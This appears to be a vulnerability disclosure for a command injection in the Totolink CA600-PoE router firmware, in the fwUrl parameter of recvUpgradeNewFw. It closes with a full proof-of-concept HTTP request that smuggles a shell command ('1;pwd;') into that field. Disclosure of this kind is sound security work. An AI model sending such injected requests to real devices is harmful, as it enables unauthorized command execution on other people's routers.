## Totolink CA600-PoE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA600-PoE
* Version: V5.3c.6665_B20180820

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/1da7db5e97165fe93f8a139889875bca.zip

### Vulnerability details

Totolink CA600-PoE V5.3c.6665_B20180820 was found to contain a command injection vulnerability in the `recvUpgradeNewFw` function via the `fwUrl` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image1](./img/1.png)

![image2](./img/2.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 120
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"recvUpgradeNewFw",
    "fwUrl":"1;pwd;",
    "newSvn":"6665"
}
```

